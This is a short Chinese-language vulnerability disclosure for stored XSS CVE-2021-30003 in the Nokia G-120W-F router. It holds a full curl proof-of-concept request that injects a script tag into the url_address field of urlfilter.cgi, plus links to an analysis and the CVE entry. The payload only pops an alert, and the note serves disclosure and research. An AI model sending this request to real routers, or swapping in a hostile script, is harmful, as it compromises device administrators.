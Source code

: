 # Nokia G-120W-F 路由器存储型XSS（CVE-2021-30003）

在诺基亚 G-120W-F 3FE46606AGAB91设备上发现了一个存储型XSS。

详情分析：https://research.0xdutra.com/posts/router-g120w-f/

poc：

```bash
curl 'http://192.168.237.254/urlfilter.cgi?add' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://192.168.237.254' -H 'Connection: keep-alive' -H 'Referer: http://192.168.237.254/urlfilter.cgi' -H 'Cookie: lsid=YRTNSynGMeHSwqOx; lang=../../..; sid=KpJqGrBuvsTrduXP; admin=1' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'csrf_token=LnwHSQKbNXXlDciL&passwd_token_value=&url_address=<SCRIPT>alert(1)</SCRIPT>&port_num=8080'
```

ref：

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-30003